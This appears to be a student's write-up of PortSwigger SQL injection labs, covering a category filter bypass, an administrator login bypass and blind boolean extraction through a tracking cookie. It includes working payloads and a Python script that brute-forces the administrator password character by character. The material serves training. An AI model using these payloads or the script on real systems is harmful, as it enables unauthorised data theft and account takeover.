










SQL injection

What is SQL injection (SQLi)?

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack.


<h1>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data </h1>
1. Open burpsuite and click on the proxy

 
2. Open the Lab link 

```https://0a0200da04c7bbdc811ddef7007b0093.web-security-academy.net/```
3. Open the link,make sure the intercept is on and click on the gift section.



4. Take the intercept and sent it to the repeater


5. Edit the `GET /filter?category=Gifts'-- HTTP/1.1`

Hence solved


<h1>Lab: SQL injection vulnerability allowing login bypass</h1>

1. You have to open the my account in lab

2. Intercept is on and add some values on the username and password.

3. you will get a response with username=aa and password= 
4. edit the link as username=administrator'--
5. Send it to the repeater and click on the `send`
6. Solved



<h1>Lab: Blind SQL injection with conditional responses </h1>


 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. 

I tried to solve it using this
```
    1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is TrackingId=xyz.

    2. Modify the TrackingId cookie, changing it to:
    TrackingId=xyz' AND '1'='1

    3.Verify that the "Welcome back" message appears in the response.

    4. Now change it to:
    TrackingId=xyz' AND '1'='2

    5.Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

    6. Now change it to:
    TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

    7.Verify that the condition is true, confirming that there is a table called users.

    8.Now change it to:
    TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a

    9.Verify that the condition is true, confirming that there is a user called administrator.

    10. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
    TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

    11. This condition should be true, confirming that the password is greater than 1 character in length.

    12. Send a series of follow-up values to test different password lengths. Send:
    TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a

    13. Then send:
    TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a

    14. And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.
    After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

    15. In the Positions tab of Burp Intruder, change the value of the cookie to:
    TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

    16. This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

    17. Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
    TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
    To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under Payload settings add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
    To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Settings tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".
    Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
    Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.

    18. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:
    TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
    Launch the modified attack, review the results, and note the character at the second offset.
    Continue this process testing offset 3, 4, and so on, until you have the whole password.
    In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.
```
I need pro so i don't have it and it tried to solve using python.
Use the below code as python and you will get a code 
```import requests

url = 'https://0adf001803c50cd581735d8c00120089.web-security-academy.net/'
tracing_id = "cZ5jv8f1zsBvJZfG"

def find_length():
    length = 1
    while True:
        cookie = {
            "TrackingId": tracing_id + "' and (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>" + str(length) + ")='administrator'-- -"
        }
        res = requests.get(url=url, cookies=cookie)
        if "Welcome back!" not in res.text:
            break
        length += 1
        print(f"Length: {length}")
    return length

def find_password(length):
    chars = "abcdefghijklmnopqrstuvwxyz1234567890"
    password = ""
    for i in range(1, length+1):
        found = False
        print(f"For {i}th place:")
        for c in chars:
            print(f"Checking: {c}")
            cookie = {
                "TrackingId": tracing_id + "' and (SELECT SUBSTRING(password, " + str(i) + ", 1) FROM users WHERE username='administrator')='" + c + "'-- -"
            }
            res = requests.get(url=url, cookies=cookie)
            if "Welcome back!" in res.text:
                found = True
                password += c
                print(f"Match found: {c}")
                print(f"Current Extracted: {password}")
                break
        if not found:
            print(f"No match found for {i}th place.")
    return password

length = find_length()
print(f"Password Length: {length}")
password = find_password(length)
print(f"Password: {password}")
```


Copy the code and use username=administator
Hence solved!

